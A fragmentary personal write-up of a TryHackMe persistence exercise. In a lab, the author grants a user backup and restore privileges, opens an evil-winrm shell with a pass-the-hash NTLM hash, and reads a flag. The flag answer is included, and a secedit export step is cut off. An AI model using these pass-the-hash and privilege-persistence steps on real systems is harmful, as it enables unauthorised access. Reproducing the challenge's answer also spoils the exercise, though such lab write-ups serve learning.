 ```

config add thmuser2 in SeBackupPrivilege and SeRestorePrivilege

┌──(kali㉿kali)-[~] 
└─$ evil-winrm -i 10.10.6.15 -u thmuser2 -H f3118544a831e728781d780cfdb9c1fa     

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                               

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                 

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\thmuser2\Documents> cd C:\flags
*Evil-WinRM* PS C:\flags> .\flag2.exe
THM{IM_JUST_A_NORMAL_USER}

pheww after a long time 
use these commands in C:\flags\
secedit /export /cfg config.inf
....
```

![[Pasted image 20220911123118.png]]

Insert flag2 here
*THM{IM_JUST_A_NORMAL_USER}*

```
```